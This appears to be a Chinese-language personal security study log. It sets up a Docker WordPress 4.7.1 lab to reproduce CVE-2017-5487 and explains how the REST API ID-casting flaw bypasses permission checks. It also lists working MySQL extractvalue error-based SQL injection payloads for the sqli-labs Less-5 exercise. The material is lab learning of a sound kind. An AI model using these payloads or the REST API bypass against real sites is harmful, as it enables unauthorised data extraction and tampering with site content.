 
  
# Day 5  

## 2019/07/12

### CVE-2017-5487

先用docker把wordpress4.7.1和mysql准备好

`docker pull wordpress:4.7.1`

`docker run -d --name mysql5.7 -e MYSQL_ROOT_PASSWORD=root -e MYSQL_DATABASE=wordpress -v $(pwd)/mysql:/var/lib/mysql mysql:5.7`

`docker exec -it mysql5.7 /bin/bash`

> `mysql -uroot -p`  
> `use mysql;`  

mysql准备好以后接下来就准备wp

`docker run --name wordpress4.7.1 -e WORDPRESS_DB_HOST=172.17.0.2:3306 -e WORDPRESS_DB_USER=root -e WORDPRESS_DB_PASSWORD=root -p 83:80 -dt wordpress:4.7.1
`

DB_HOST可以通过`ip a`看到，端口按照之前设定的3306来

安装之前修改一下配置文件

确认 Httpd-conf  Allowover All

![img1](https://raw.githubusercontent.com/largewaste/cqr/master/imgs(copied%20from%20other%20places)/0712_1.png)

![img2](https://raw.githubusercontent.com/largewaste/cqr/master/imgs(copied%20from%20other%20places)/0712_2.png)

下载poc

https://gist.github.com/leonjza/2244eb15510a0687ed93160c623762ab

打到未授权获取发布过文章的其他用户的用户名、id

![img3](https://raw.githubusercontent.com/largewaste/cqr/master/imgs(copied%20from%20other%20places)/0712_3.png)

#### 原理（来自：https://iassas.com/archives/5a5cf5bb.html）

查看/wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php的第90行，发现参数ID的值会被过滤成数字。

发现REST API在管理访问时，其会在正则表达式之前优先考虑`$_GET`和`$_POST`的值。

例如: 

/wp-json/wp/v2/posts/1234?id=12345helloworld，REST API会将其ID参数设置成12345helloworld。

在99行使用了`update_item`和`update_item_permissions_check`。

![img4](https://raw.githubusercontent.com/largewaste/cqr/master/imgs(copied%20from%20other%20places)/0712_4.png)

查看593行的`update_item_permissions_check`函数，其将ID值传递给`get_post()`函数。

这个函数功能用来检查帖子是否存在、是否有权限。

如果发送的ID没有对应的post，就可以绕过权限检查，并允许继续执行`update_item`方法。

![img5](https://raw.githubusercontent.com/largewaste/cqr/master/imgs(copied%20from%20other%20places)/0712_5.png)

由于使用`get_instance()`静态方法来获取post，造成`get_post()`在特定情况下无法找到对应的ID。

查看/wordpress/wp-includes/class-wp-post.php第210行，发现需全部使用数字，例如123ABC将会导致获取post失败。

有一个细节，其会将ID参数在传递给get_post之前会将其转换成整数。

![img6](https://raw.githubusercontent.com/largewaste/cqr/master/imgs(copied%20from%20other%20places)/0712_6.png)

PHP语言中做类型的比较和转换时，其会返回整数。例如

![img7](https://raw.githubusercontent.com/largewaste/cqr/master/imgs(copied%20from%20other%20places)/0712_7.png)

例如提交一个请求为/wp-json/wp/v2/posts/123?id=456ABC，PHP会将其ID返回456。由于456ABC并不是纯数字会导致/wordpress/wp-includes/class-wp-post.php获取post_id失败。

在流程进入权限检查时`update_item_permissions_check`判断其没有对应的post绕过权限判断，进行更新操作`update_item`。最终导致ID为456被修改。

在受影响的WordPress版本中REST API接口是默认开放的。任何用户都可以利用该漏洞修改任意文章，只需要指定修改文章的ID即可。

### extractvalve()+updatexml()报错注入

名称 |   描述    |   
-|-
extractvalve() | 使用XPath表示法从XML字符串中提取值
updatexml() | 返回替换的XML片段

原理：https://www.cnblogs.com/laoxiajiadeyun/p/10488731.html

语句：` id=1 and (extractvalue(1,concat(0x5c,(select user()))))`

可以通过less-5来实现，payload如下

注出路径：`id=1' and (extractvalue(1,concat(0x5c,(select user())))) --+`

注出版本号：`?id=1'; and extractvalue(1,(concat(0x7e,(select @@version),0x7e))) --+`或者`?id=1' and extractvalue(1,(concat(0x7e,(select version()),0x7e))) --+`

句式：
` and extractvalue(1,(concat(0x7e,(payload),0x7e)))`

payload里面写想要查询的东西的语句

